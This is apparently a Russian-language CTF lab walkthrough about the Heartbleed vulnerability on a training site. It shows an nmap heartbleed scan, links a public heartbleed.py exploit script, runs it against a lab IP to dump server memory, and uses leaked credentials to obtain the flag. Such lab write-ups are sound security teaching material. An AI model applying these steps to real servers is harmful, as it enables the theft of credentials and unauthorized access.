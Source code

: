 # Лабораторная работа #3 HeartBleed

Заходим на сайт [http://heartbleed.myctf.ru](http://heartbleed.myctf.ru/) видим что нас перекидывает на https.
![image11](images/image11.png)

Проверяем веб-сервер на heartbleed:

```shellsession
# nmap -p 443 --script ssl-heartbleed <target>
```

В ответ получаем

```shellsession
PORT STATE SERVICE
443/tcp open https
| ssl-heartbleed:
|   VULNERABLE:
```

Это говорит об уязвимости сервера.
Находим любой скрипт для эксплуатации (вытягивание данных), например:
[https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py)

Запускаем

```shellsession
# ./heartbleed.py -n 100 192.168.241.137
```

![image12](images/image12.png)

Среди кучи мусора видим запрос с валидными кредами на вход, вводим эти данные, получаем флаг.
![image13](images/image13.png)

Какой флаг вы получили?

_____________________